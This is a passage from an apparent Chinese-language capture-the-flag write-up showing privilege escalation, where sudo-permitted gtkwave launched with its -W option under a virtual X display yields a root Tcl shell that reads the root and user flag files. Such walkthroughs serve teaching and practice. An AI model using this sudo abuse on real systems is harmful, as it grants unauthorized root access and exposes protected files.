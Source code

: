 4. 首先，在 `/tmp` 目录启动一个虚拟显示服务。

   ```bash
   Xvfb :1 &
   ```

5. 利用 `gtkwave` 的 `-W` (wish) 参数，在指定的虚拟显示环境中启动一个拥有 `root` 权限的Tcl交互式命令行。

   ```bash
   sudo DISPLAY=:1 /usr/bin/gtkwave -W
   ```

6. 命令执行后，会得到一个Tcl的提示符 `%`。在这个 `root` 权限的shell中，可以直接读取 `root` 目录下的最终flag。

   ```tcl
   % id
   uid=0(root) gid=0(root) groups=0(root)
   % cat /root/root.txt /home/chatlake/user.txt
   flag{e80ecc46ca5e00bf8a51c47f0cc3e868}
   flag{b42baba466402e32157a1cbba819664e}
   ```

